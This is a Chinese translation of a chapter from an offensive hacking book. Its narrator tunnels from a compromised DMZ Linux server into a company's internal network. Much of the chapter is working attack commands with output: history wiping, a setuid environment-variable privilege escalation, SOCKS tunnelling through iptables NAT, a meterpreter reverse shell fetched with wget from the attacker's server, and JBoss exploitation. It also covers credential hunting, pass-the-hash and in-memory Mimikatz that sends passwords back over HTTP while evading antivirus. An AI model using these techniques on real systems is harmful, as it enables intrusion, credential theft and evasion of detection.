



# 第三章、防火墙后面的世界

> 为什么有人修了一堵墙，后面的人立刻想知道墙后是啥？” -- _georges R.R. Martin_

利用SPH公司前端服务器上的一些漏洞，我们至少有一台服务器的控制权了。\[53\]。现在，我们在蓝色区域的服务器上拿到了一个shell。但是蓝色区域除了邮箱代理服务器，视频会议服务器和一些网站，没有任何我们正在寻找的数据。



蓝色区域只是我们通向绿色区域的入口。想一想，从互联网上我们无法看见绿色区域（属于内部网络）;但是，通过蓝色区域，我们可以访问绿色区域的一些服务器了。本章旨在让Front Gun服务器通过蓝色区域，建立一条可靠链接或隧道，通向绿色区域。

如果我们可以在途中拿下一两台服务器，那就更好了，但首先要搞清楚的是：我们正处在什么设备上？

## 3.1 知彼

无论是在Windows还是Linux上，首要工作都是收集所处环境的有效信息。但是，在执行任何命令之前，首先禁用 bash 的历史文件，避免我们的命令被记录下来。

```text
www-data@CAREER$ unset HISTFILE
```

查看系统信息

```text
www-data@CAREER$ uname -a
Linux CAREER 4.4.0-31-generic #50-Ubuntu SMP Wed Jul    13    00:06:14    UTC    2016    i686    i686    i686
GNY/Linux
www-data@CAREER$ cat /etc/passwd
[…]
redis:x:124:135::/var/lib/redis:/bin/false
redsocks:x:125:136::/var/run/redsocks:/bin/false rwhod:x:126:65534::/var/spool/rwho:/bin/false sslh:x:127:137::/nonexistent:/bin/false rtkit:x:128:138:RealtimeKit,,,:/proc:/bin/false saned:x:129:139::/var/lib/saned:/bin/false
usbmux:x:130:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
beef-xss:x:131:140::/var/lib/beef-xss:/bin/false
vboxadd:x:999:1::/var/run/vboxadd:/bin/false ftp:x:133:143:ftp daemon,,,:/srv/ftp:/bin/false
elasticsearch:x:134:144::/var/lib/elasticsearch:/bin/false debian-tor:x:135:145::/var/lib/tor:/bin/false mongodb:x:136:65534::/home/mongodb:/bin/false oinstall:x:1000:1001::/home/oinstall:/bin/sh oinstall2:x:1001:1002::/home/oinstall2:/bin/sh
[…]
```

看来我们位于一台Ubuntu服务器（使用32位架构）。当前用户是 www-data，这种账户通常权限较低。

虽然系统上定义了很多用户，但当前处于活动状态的只有我们的会话：

```text
www-data@CAREER:$ w
19:01:10 up 14:51,    1 user,    load average: 0.00, 0.00, 0.00
USER    TTY    FROM    LOGIN@    IDLE    JCPU  PCPU WHAT
www-data tty1 Thu19 0.00s 1:47 0.00s /bin/bash
```

检查网络配置，可以看到我们处在 192.168.1.0/24 网段：

```text
www-data@CAREER:$ ifconfig
eth1        Link encap:Ethernet HWaddr 08:00:27:7d:a6:c0 
            inet addr:192.168.1.46 Bcast:192.168.1.253 Mask:255.255.255.0
            inet6 addr: fe80::a00:27ff:fe7d:a6c0/64 
Scope:Link
            UP BROADCAST RUNNING MULTICAST
            MTU:1500 Metric:1
            RX packets:158729 errors:0 dropped:501 overruns:0 frame:0
            TX packets:1626 errors:0 dropped:0 overruns:0 carrier:0
            collisions:0 txqueuelen:1000
            RX bytes:18292132 (17.4 MiB) TX bytes:225556 (220.2 KiB)
```

最后，服务器没有启用本地防火墙规则，不会对我们后面要用到的数据传输技术造成影响：

```text
www-data@CAREER:$ iptables -L 
Chain INPUT (policy ACCEPT)
target    prot opt source    destination

Chain FORWARD (policy ACCEPT)
target    prot opt source    destination

Chain OUTPUT (policy ACCEPT)
target    prot opt source destination
```

> 提示：请记住，我们可以使用更高级的反向shell（例如meterpreter）通过模块来自动执行这些检查。本地工具和命令清单可以在这里获取：\[54\]

## 3.2 第一个倒下的

可能有人会认为，在拿下的第一台服务器上获取管理员权限不是必须的。其实也对，如果我们仅仅需要建立与内部网络区域的隧道的话，拿到普通权限就已经足够了。但是，如果我们想擦除审计日志、欺骗管理员，或者安装新工具，拥有管理员权限显然会更加方便。

有时候，如果运气好的话，用来获取 shell 的漏洞组件本身就以最高权限在运行，在这种情况下，啥都不用做，可以直接跳转到下一节了。

一个典型的例子，运行 DBA 账户的 MSSQL 服务器存在 SQL 注入漏洞。所有通过**xp\_commandshell** 执行的命令，都具备系统最高权限，也就没必要使用接下来介绍的这些技术了。不管怎样，我们还是聚焦在已经拿下的这台Linux服务器吧。

提权和 **setuid** 文件也不是每次都能碰到，但在linux的世界里，他们是一对完美组合。这是每一位黑客或者渗透测试人员攻击 Linux 服务器的第一反应。

在Linux发行版中，所有文件都有一个特殊属性"s"，称为 setuid 位。这允许任意用户通过文件所有者的权限来执行该文件。例如，root账号创建了一个用来删除某些重要文件的脚本，通过对该文件添加 setuid 位，其他任何用户执行该脚本都会以 root 用户的权限来执行删除命令。

记住，一旦我们修改了 **setuid** 脚本，它就不再具备该能力。我们正在寻找的，就是一个使用了未严格过滤命令的 **setuid** 脚本，用以操作环境变量，执行其他二进制文件 -- 有时我们可以控制和提权，从而欺骗它来执行我们自己的代码。

首先，通过下面的命令列出所有 **setuid** 文件：

```text
CAREER$>find / -type f \( -perm -04000 -o -perm -02000 \) \-exec ls -l {} \;
r-sr-sr-x 1 oinstall adm 9 Dec 18 14:11 /app/product/def_policy
[…]
```

找到了 **def\_policy** 文件。任意用户都可以用 **oinstall** 账户的权限来执行该文件。也许该用户不具备 root 权限，但我们毕竟向前了一步。

对 **def\_policy** 文件执行 strings 命令，查找程序中硬编码的数据：

```text
www-data@career$ strings /app/product/def_policy
/lib/ld-linux.so.2
____gmon_start____
libc.so.6
setuid
exit
sprint
strnlen
malloc
system
strsep
strcmp
____libc_start_main
GLIBC_2.0 
ADMIN_PATH
%s/install.sh
```

看起来，**def\_policy** 程序只是一个简单的打包程序，用来执行 install.sh 脚本。'%s' 格式字符串意味着 **install.sh** 脚本的路径是从变量中获取的……比如'ADMIN\_PATH'？也许吧，但是看起来程序代码中没有任何路径。基本可以确定，是在会话级别的环境变量中定义了该路径值。

有意思的是，每个用户可以控制自己的环境变量。我们可以这样欺骗该程序去读取攻击者控制目录中的新 install.sh 脚本。这个新的“伪造”脚本会生成一个具有 oinstall 账户权限的 **bash** 会话。

```text
www-data$> export ADMIN_PATH=/tmp/
www-data$> echo -e    "#\!bin/bash\n/bin/bash" > /tmp/install.sh
www-data$> /app/product/def_policy
oinstall$> id
uid=1501(oinstall) gid=2001(adm) groups=2001(adm) ,27(sudo)
```

很好！ **oinstall** 账号不仅仅是 **adm** 组用户，还是 **sudo** 组用户。这意味着它可以提权为 root 用户：

```text
oinstall@CAREER:$ sudo su
root@CAREER#> id
uid=0(root) gid=0(root) groups=0(root)
```

干掉了一个……继续干。

> 迁出 linuxprivchecker 脚本：[http://www.securitysift.com/download/linuxprivchecker.py，了解一些有趣的自动采集信息的技术。](http://www.securitysift.com/download/linuxprivchecker.py，了解一些有趣的自动采集信息的技术。)
>
> windows 平台也有类似的工具：[https://github.com/pentestmonkey/windows-privesc-](https://github.com/pentestmonkey/windows-privesc-) check

## 3.3 搭个梯子直达天堂

现在我们已经拿下了一台机器的 root 权限，接下来逛逛蓝色区域看还能发现点什么。因为大部分信息系统都是基于 Windows 系统的，最好是在公共 DMZ 区找到并拿下一台 Windows 机器。因此，我们可以重用后文一些机器的漏洞和密码。

为了更好的开展攻击，我们需要将常用的黑客工具（比如nmap、自己写的python脚本、Powershell Empire等）上传到刚才拿下的 Linux 机器上。如果这么操作的话，咋说呢？有点“脏”。日后受害者开展调查的时候，将发现我们放在服务器上的所有专用工具，通过分析这些文件能理解整个攻击过程。

这就是为啥我倾向于第二种方法的原因，这种方法更“干净”，也可以说更“性感”：建立虚拟隧道。对 Linux 机器进行配置，让它接收我们所有的数据包，并且直接转发到指定的目标地址。这个目标地址从互联网是无法访问的，因为是私有地址。


**私有地址**

设备在互联网上可以通过 IP 地址被访问。IPv4 由四个字节组成，通常用 X.X.X.X 表示， X 值介于 0 到 255。 有些 IP 地址被保留用于本地网络，不能用于互联网（RFC 1918）：

```text
127.0.0.1 表示本机
172.16.0.0/16 (从 172.16.0.0 到 172.16.31.255)
192.168.0.0/24 （从 192.168.0.0 到 192.168.255.255）
10.0.0.0/8 （从 10.0.0.0 到 10.255.255.255）
```

如果路由器在公网接口看到了以上地址，将会直接丢弃这些数据包。


蓝色区域的服务器都位 192.168.1.0/24 网段。如果我们告诉 FrontGun 服务器向 192.168.1.56 发送一个数据包，互联网路由器显然会根据 RFC 1918 直接予以丢弃。

解决该问题的小技巧就是，告诉 Linux 服务器，将其公网IP接收到的所有来自于我们的 IP 数据包转发到 192.168.1.0/24 网段的其他机器。 事实上，这台 Linux 服务器就是一个工作在 TCP/IP 协议栈第三层的代理，也就是我们常说的 socks 代理。



### 3.3.1 Socks 代理

通过下面的链接，可以获得一个简单的 socks 代理实现代码。

```text
frontGun$ wget https://raw.githubusercontent.com/mfontanini/Programs- Scripts/master/socks5/socks5.cpp
```

在编译之前，先将监听端口从 5555 改为一个不太明显的端口（比如 1521 端口），并对隧道连接设置账号密码。

```text
40 #ifndef SERVER_PORT
41     #define SERVER_PORT 1521
42 #endif
43 #define MAXPENDING 200
44 #define BUF_SIZE 256
45 #ifndef USERNAME
46     #define USERNAME "username"
47 #endif
48 #ifndef PASSWORD
49     #define PASSWORD "password"
50 #endif
```


在 FrontGun 服务器上编译该文件，然后启动一个轻量级的 HTTP 服务，方便一会儿从 SPH 公司的 linux 服务器上下载该程序。

```text
FrontGun$ g++ -o socks5 socks5.cpp -lpthread
FrontGun$ python -m SimpleHTTPServer 80
```

在 SPH 公司的服务器上，下载该程序，赋予可执行权限，然后运行：

```text
root@CAREER:$ wget http://FRONTGUN_IP/socks5
root@CAREER:$ chmox +x socks5 && ./socks5
```

在实现的服务器上启动了 1521 端口。现在我们建立了一条隧道，正在等待连接。然而，这台 Linux 服务器看起来位于防火墙后面，禁止了对 1521 端口的入站连接。

```text
FrontGun$ nc career.sph-assets.com 1521
(Connection timeout)
```

要想解决这个问题，我们在拿下的 Linux 服务器上创建两条本地规则，将所有来自我们 IP 的数据包都路由到 1521 端口：

```text
root@CAREER# iptables -t nat -A PREROUTING -i eth2 -p tcp -s <IP_FrontGun>   --dport 80 -j DNAT --to-destination webserver02:1521
root@CAREER# iptables -t nat -A POSTROUTING -d webserver02 -o eth1 -j MASQUERADE
```

SPH 公司的这台 linux 服务器每次收到我们的 FrontGun 服务器 IP 发来的对 80 端口请求的数据包时，都会将其转发到 1521 端口。 Socks 代理将会解析我们的请求，然后根据我们的要求访问指定的内部服务器……干得漂亮！

剩下要做的就是让 FrontGun 服务器上的所有工具都使用刚才创建的这条隧道。幸运的是，并不需要重写服务器上的所有脚本。通过 Kali 自带的 Proxychains（以下译作“代理链”）工具就能处理解决该问题。像下面这样修改 /etc/proxychains.conf 配置文件：

```text
[ProxyList]
61 # add proxy here ... 62 # meanwile
63 # defaults set to "tor"
64 #socks4    127.0.0.1 9050
65 socks5    career.sph-assets.com 80
```

如果想通过proxychains 运行 nmap，只需要在 FrontGun 服务器运行以下命令：

```text
FrontGun$ proxychains nmap -sT 192.168.1.0/24
```


提示： -sT 参数会强制 nmap 发起连接式扫描。否则流量不会经过代理链。


### 3.3.2 Meterpreter

之前的 maneuver 依赖于 **iptables** 来创建本地转发规则，该工具仅适用于 root 用户。我们不可能一直都有这么高的权限，可能是因为时间不够、兴趣不够、或者缺少 exploit 等原因。

出于完整性考虑，跟之前介绍隧道一样，我们详细看看 metasploit 的特性。首先，为 Linux 平台生成一个 meterpreter 执行文件，然后在 FrontGun 服务器创建一个监听器。

```text
FrontGun$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=FrontGun_IP LPORT=443 -f elf > package

FrontGun$ msfconsole
Msf> use exploit/multi/handler
Msf> set payload linux/x86/meterpreter/reverse_tcp Msf> set LHOST FRONTGUN_IP
Msf> set LPORT 443 Msf> run
```

接下来在 FrontGun 启动一个 HTTP 服务，从先前拿下的 Linux 服务器上下载该 meterpreter 文件并执行：

```text
FrontGun$ python -m SimpleHTTPServer 80
# 以下在蓝区的 Linux 服务器执行
Career# wget http://FrontGun/package
Career# chmod +x package && ./package
```

很快，在 FrontGun 服务器的屏幕上就弹出了 meterpreter 会话。 通过该会话，不仅可以将命令转发到已经拿下的服务器，还可以发到 DMZ 区的所有服务器。

要实现这一点，只需要告诉 metasploit 的模块，将所有命令通过这个 meterpreter 会话发送，同时给这个会话号（本例中是1）增加一条路由：

```text
meterpreter > (press Ctr+z) Background session 1? [y/N]
msf exploit(handler) > route add 192.168.1.0 255.255.255.0 1
[*] Route added
```

通过内部的 metasploit 扫描器快速测试一下，确认该路由工作正常：

```text
msf exploit(handler) > use auxiliary/scanner/portscan/tcp 
msf auxiliary(tcp) > set PORTS 80
PORTS => 80
msf auxiliary(tcp) > set RHOSTS 192.168.1.46
RHOSTS => 192.168.1.46
msf auxiliary(tcp) > run

[*] 192.168.1.46:80 - TCP OPEN
[*] Auxiliary module execution completed
```

很好。但是 metasploit 的扫描工具跟nmap这种传统工具比起来，还是太慢、太不稳定了。此外，若能在蓝区的机器上运行第三方工具，甚至是手写的脚本肯定会更好。

为实现这个目标，需要使用到 **auxiliary/server/socks4a** 模块。 它在 Front Gun 服务器开启本地端口，所有发送到该端口的数据包都会自动转发到我们先前添加的 meterpreter 的会话（发送到 192.168.1.0/24 的数据包都会到会话1）中：

```text
msf auxiliary(tcp)> use auxiliary/server/socks4a 
msf auxiliary(tcp)> set SRVPORT 9999 
SRVPORT => 9999
msf auxiliary(tcp)> set SRVHOST 127.0.0.1 
SRVHOST => 127.0.0.1
msf auxiliary(tcp)> run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
```

为了将所有工具的输出，都转发到我们刚才创建的隧道中，需要再次使用 proxychains 工具：

```text
[ProxyList]
61 # add proxy here ... 62 # meanwile
63 # defaults set to "tor"
64 #socks4    127.0.0.1 9050
65 socks4    127.0.0.1 9999
```

注意， metasploit 在Front Gun 服务器开启了 9999 端口， 和我们先前部署的 socks 代理相反。

然后，通过 proxychains 运行 nmap，用下面的命令:

```text
frontGun$ proxychains nmap -sT 192.168.1.0/24
```


**建议** 我们也可以使用 SSH 来转发所有端口，这篇博客中有详细介绍：[https://highon.coffee/blog/ssh-](https://highon.coffee/blog/ssh-) meterpreter-pivoting-techniques/


## 3.4 四处晃晃

当我们可以访问公共 DMZ 区的其他服务器之后，可以探索下该区域都有哪些服务和应用。当前位于 C 类网络中，可以轻易扫描整个网络范围（0-255\)。在此，咱们先简单的探测下常用端口：

```text
FrontGun$ proxychains nmap -F -n 192.168.1.0/24 -oA dmz_scan
-n does not resolve DNS names
-F scans only the 100 most common ports
-oA writes the results to a local file
```

通过扫描结果来寻找“软柿子”，也就是可以被轻松提权执行代码的目标。

### 3.4.1 孤独的\(J\)Boss

跟预期的一样，该区域看起来有大量的 web 服务。大部分通过浏览互联网就能访问到；但是，我们终究是在**公网**。有些服务在先前的互联网扫描中并未被发现，这就是**中间件控制台**。


**何为中间件** 中间件是一个组件，用来承载更高级别的应用，处理一些基本任务，例如排程、优先级、资源缓存、清理内存等等。Apache 就是一种承载网站的中间件。更精准的例子应该数 Java 中间件家族：JBoss、Tomcat、Jenkins等等。

作为黑客，让我们感兴趣的是这些中间件都有管理控制台，供开发者用来发布新的应用和升级已有应用，例如 CMS（译注：内容管理系统）。如果我们可以控制中间件，就能发布新的应用，从而在服务器上执行任意代码。


利用 **grep** 命令来查找 nmap 扫描结果中开放了 8080/8443/8081/8888 端口的服务器。这些可能通常对应 Jboss/Tomcat/Jenkins 等中间件。

```text
root@kali:~/book# grep -e "\ (8080\|8443\|8081\|8888\).*open" dmz_scan.gnmap |sed - r 's/,/\n/g'
Host: 192.168.1.70 ()
Ports: 
135/open/tcp//msrpc///
139/open/tcp//netbios-ssn///
445/open/tcp//microsoft-ds///
1026/open/tcp//LSA-or-nterm///
8009/open/tcp//ajp13///
8080/open/tcp//http-proxy///
```

通过 proxychains 启动Firefox，就能开心的看到 JBoss 主页了：


访问 JMX 控制台，也就是 JBoss 的管理面板。看到没，不需要提供任何凭证，就能访问所有内容了。毕竟，“聪明”的管理员认为没有人可以访问 DMZ，是不是?

让 JAVA 中间件如此容易成为攻击目标的原因在于，它有太多控制台了： JMX 控制台、Web控制台、JmxInvokerServerlet等等，这还只是传统 HTTP 协议的控制台，其他特殊协议，例如RMI也有。

要确保所有东西都锁好，势必是需要做额外功的，但是当人们搭建测试服务器之后，就懒得再遵照安全守则操作了。他们会等服务器运行6个月，就认为万事大吉了。到那个时候，谁都不会记得这个管理面板的存在，或者只是指望其他人做了安全加固。

不管怎样，我们可以编写一个生成反弹 shell 的 Java 应用，打成**War**包，部署到 JBoss 服务器上，静静等到远程代码被执行。这一步操作也可以通过 metasploit 的**jboss\_invoke\_deply** 模块实现自动化：

```text
FrontGun$ msfconsole
msf > use exploit/multi/http/jboss_invoke_deploy

msf exploit(jboss_invoke_deploy) > set RHOST 192.168.1.70
RHOST => 192.168.1.70

msf exploit(jboss_invoke_deploy) > set payload java/meterpreter/reverse_https
payload => java/meterpreter/reverse_https

msf exploit(jboss_invoke_deploy) > set LHOST Front_Gun_IP
LHOST => 192.168.1.11

msf exploit(jboss_invoke_deploy) > set LPORT 443 
LPORT => 443

msf exploit(jboss_invoke_deploy) > exploit

[*] Started HTTPS reverse handler on https://0.0.0.0:443/
[*] Attempting to automatically select a target
[*] Attempting to automatically detect the platform 
[*] Attempting to automatically detect the architecture
[*] Automatically selected target: "Windows Universal" 
[*] Deploying stager
[*] Calling stager: /zUAfKRBBvtYsET/leNHaWyjhUmSLo.jsp 
[*] Uploading payload through stager
[*] Calling payload: /polZSMHIz/wUnOCfzZtVIa.jsp 
[*] Removing payload through stager
[*] Removing stager
[*] 192.168.1.70:1129 (UUID:c6980ba710d8ffe7/java=17/java=4/2016-12- 24T17:40:04Z) Staging Java payload ...
[*] Meterpreter session 1 opened (Front_Gun_IP:443 -> 192.168.1.70:1129) at 2016-12-24 18:40:05 +0100

meterpreter > getuid
Server username: jboss_svc
```

已经很接近了！**jboss\_svc**用户不具备管理员权限，这在运行JBOSS的Windows服务器上很少见。通常情况下，我们直接能获取到 SYSTEM 权限，看起来服务器做了某种方式的加固。

```text
meterpreter > shell 
Process 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
C:\jboss-6.0.0.M1\bin>net localgroup "administrators" 

net localgroup "administrators" Members

-------------------------------------------------------
admin_svc 
Administrator
The command completed successfully.
```

进一步探测可以发现，这是一台 windows 2003 sp3 服务器，有三个本地用户。你的第一反应肯定是：“操作系统太老了，我们有 N 种姿势来获取管理员权限！”说的很对，但我们不可能总是这么幸运，所以接下来我会介绍一些获取 windows 服务器的经典方法。这些方法更快、更隐蔽，而且，99%的情况下都有效。


**建议** 更懒的做法是，直接运行 /post/multi/recon/local\_exploit\_suggester 模块，来看看哪些方法适用于你的环境。


### 3.4.2 跌宕起伏

提权最基本的手段是查找特殊文件中的密码。比如，为了方便迁出新服务器，管理员往往会使用集中部署软件。管理员密码保存在部署软件使用的 unattend.xml 文件中。

```text
C:\jboss-6.0.0.M1\bin>powershell -exec bypass

PS> Get-Content "c:\windows\panther\unattend.xml" | Select-String "Password" -Context 2 -SimpleMatch

<Username>admin_svc</Username>
<Domain>WORKGROUP</Domain>
<Password>SABlAGwAbABvADUAbQBlAA==</Password>
</Credentials>
```

看到了吧！随便用哪种 base64 解码工具（PowerShell/Linux/web）就能获取到用户 admin\_svc 的明文密码： 'Hello5me'。

看起来这一次我们拿到的本地用户隶属于管理员组：

```text
C:\jboss-6.0.0.M1\bin>net localgroup "administrators"    
net localgroup "administrators" Members

--------------------------------------------------------------------
admin_svc
Administrator

The command completed successfully.
```


**建议** sysprep.xml 和 sysprep.inf文件也有可能包含明文密码。


我们也可以在本地系统或者网络共享中查找常见脚本，例如.bat/.sh/.vbs/.vba/.vbe/.asp/.aspx/.php/.jsp等。配置文件也不要错过：例如 .ini/.config/.properties 等等。

可以通过执行下面的命令来覆盖以上所有文件：

```text
>dir \ /s /b | fpind /I “password”
>dir \ /b /s “*.bat”
>dir \ /b /s “*.cmd”
>dir \ /b /s “*.vbs”
>dir \ /b /s “*.vba”
>dir \ /b /s “*.vbe”
>dir \ /b /s “*.ps1”
>dir \ /b /s “*.config”
>dir \ /b /s “*.ini”
>dir /s *pass* == *cred* == *vnc* == *.config*
>findstr /si password *.xml *.ini *.txt
```

查找的结果类似下图：


psexec 是一款在远程计算机执行命令的常用工具。它需要远程计算机的管理员权限，所以 svc\_mnt 看起来是我们口袋中的第二个管理员账户。

我们还要继续寻找其他方式来拿下其他Windows主机，但我们更倾向于提升已有账户的权限来获取更多访问权。（如果你对 windows 提权感兴趣，可以看看这篇精彩的文章 \(\[61\][https://www.youtube.com/watch?v=\_8xJaaQlpBo\]）](https://www.youtube.com/watch?v=_8xJaaQlpBo]）)

### 3.4.3 密码大丰收

截止到目前，我们已经拿到了两个看起来非常有用的本地 Windows 账号： admin\_svc 和 admin\_mnt。为啥这么说？因为这些账号说不定能登录其他机器，那可省事儿了。那怎么找出哪些机器使用了这两个账号呢？太简单了：尝试连接每一台机器，看这两个账号是否能登录成功。

推荐使用 Crackmapexec，这个工具组合使用了 WMI 调用（Windows Management Instrumentation）和 SMB 请求来与远程机器交互。

针对我们的爆破场景，因为只需要用到 SMB 端口（445），所以从先前 nmap 扫描的结果中从找出开放了该端口的服务器。然后启动 CrackMapExec（简称CME），填上刚才获取的账号信息。因为使用的是本地账号，还要增加 '-d WORKGROUP' 选项。

```text
FrontGun$ proxychains crackmapexec -u admin_svc -p Hello5me -d WORKGROUP 192.168.1.116 192.168.1.88
192.168.1.70
```

执行结果如图所示：


看起我们拿到的身份信息只对刚才干掉的 Win2003 设备\(192.168.1.70\)有效啊。有时候管理员会根据 Windows系统的版本来设置不同的密码，不过也可能是因为管理员不同。

在使用第二个账号开始爆破之前，先提取这台Windows 2003服务器的本地管理员账号的密码hash。使用这个账号说不定会有更大的收获：

```text
FrontGun$ proxychains crackmapexec -u admin_svc
-p Hello5me -d WORKGROUP –-sam 192.168.1.70
```


--sam 选项用来分析注册表中的 SYSTEM 和 SAM 键值，里面存储了本地用户密码的hash值。

接下来破解这些 hash 值，不过在 windows 环境下可以跳过这一步。因为在windows系统里，拿到hash等同于拿到了明文密码，这一切得感谢 NTLM 协议。


**LM/NTLM 协议介绍** NTLM 是windows的协议集，也可以指 hash 算法和 挑战-响应 协议。咱们先来讨论 Windows 中的hash。

Windows 系统的密码，由于历史缘故以两种格式存储：LM和NTLM格式（User:LM:NTLM）。

LM 哈希基于 DES 算法，所以比 NTLM 弱。此外，它还有很多设计缺陷，导致很容易被破解（例如密码长度不能超过14个字符，只支持大写，不含salt值等等）。

NTLM 哈希是对 MD4 算法的封装，应用在密码的 Unicode 值上，长度128位。虽然计算起来快，但只要资源合适，被破解起来也快。

在理想化的登录场景下，例如用户坐在电脑前敲密码，Windows 系统根据其输入来计算密码 hash，然后与存储的值进行比较。很简单是不是？但是当服务器位于网络中时，微软依赖 挑战-响应 协议来对用户进行认证，大致过程如下：

服务器向客户端发送一个challenge包：客户端使用用户密码哈希对一个随机数进行加密，然后发送回服务端。后者知道用户的哈希值，可以进行同样的计算。如果两者计算结果相同，服务器就可以确认用户身份。

你可能已经主导了，客户端是使用的哈希值来响应挑战包，而不是原始密码。因此，攻击者即使不知道密码也可以伪造任意用户。

随后微软实现了 Kerberos 协议来修补该缺陷，但是企业已经很难替换掉 NTLM 了。因为企业无法在不打破整个 windows 架构的情况下禁用该协议。


因为我们已经拿到了管理员账号的 NTLM 哈希值，就可以利用 CME 登录所有 windows 服务器：

```text
FrongGun$ proxychains crackmapexec -u administrator -H 9587e26af9d37a3bc45f08f2aa577a69 192.168.1.70, 192.168.1.88, 192.168.1.116 -d WORKGROUP
```


搞定了！现在我们可以无视操作系统版本，访问所有windows服务器了！接下来就可以在远程服务器上为所欲为了：如获取文件，监视用户，导出哈希等等。

如果我告诉你咱们还能做得更好，你会不会很吃惊？其实，我们还可以在不使用爆破的情况下，获取所有windows服务器上最近连接用户的密码。这本身并非漏洞，而是一种设计缺陷。第一款能利用该缺陷的公开工具是 Mimikatz，它的出现，彻底改变了 Windows 渗透的世界。


**Mimikatz--windows魔法** Gentilkiwi 开发了 Mimikatz 用来探索 Windows 认证机制的内部原理。他发现用户登录之后，其密码都保存在内存的“本地安全授权子系统服务”（简称 LSASS）进程中。通过利用 Windows 未公开的功能， Mimikatz 可以对密码解密并明文显示。

建议你读读Gentilkiwi的介绍文章，有讲到该缺陷的细节，不过最不可思议的是，这么多年过去了该方法居然还有效。

Mimikatz提供了很多功能，使得它很快成为了 Windows 入侵和渗透的必备工具。后面我们将介绍它的部分功能。


对此，你可能会有疑问，咱们会不会太冒险了？毕竟这个工具早就为人所知，所有的防病毒和防恶意软件产品都能识别其前五个字节特征。没错！但是别忘了一个简单的事实，所有防病毒产品只会分析落盘的文件。甭管这些厂家宣传的多牛x、先进，都逃不出这个简单的事实。

Mimikatz 太好用了，于是很快被集成到大部分windows入侵工具中。因此 CrackMapExec（以及empire、metesploit等等）都能在内存中远程执行它，并且绕过所有传统的防病毒品牌。

```text
FrontGun$ proxychains crackmapexec -u administrator -H bc45f08f2aa577a69 -d WORKGROUP 192.168.1.116 192.168.1.70 192.168.1.88 -M mimikatz --server=http --server-port=80
```

再回过头看看我们的攻击链，可以更好的理解这条命令：Crackmapexec 在我们的 Front Gun 服务器上运行。通过135端口运行的远程过程调用（简称RPC）在远程服务器内存中启动了进程。该进程启动了一段 Powershell 代码，然后从 CME（注意 --server 和 --server-port 参数） 启动了 Mimikatz，在内存中运行后将结果通过 HTTP 回传。Mimikatz 全程不落盘，压根监测不到，就是这么简单。



总的来说，咱们已经收集到不止6组密码了。这里的每一个密码，都可能是通向绿区服务器的钥匙。这将是下一章的主题了。

| 主机名 | 用户 | 密码 | 域 |
| :--- | :--- | :--- | :--- |
| 192.168.1.70 | admin\_svc | Hello5me | WORKG |
| 192.168.1.80 | svc\_mnt | Hello5!981 | WORKG |
| 192.168.1.116 | martin | Jelly67Fish | WORKG |
| 192.168.1.116 | richard | Hello5me | WORKG |
| 192.168.1.88 | Lionnel\_adm | Kiki\*\*081nb | WORKG |
| All DMZ windows machines | Administrator | M4ster@dmin \_123 | WORKGR |


**补充说明** 以上所有对 CrackMapExec 和 Mimikatz 的演示都有个架设前提，就是 DMZ 区的 Windows 服务器可以访问我们的 Front Gun 服务器，两者之间能通过 80 端口进行通信，以发送密码。这个架设并非永远成立，后面我们还会提到


> 翻译：xncoder 2019/8/6

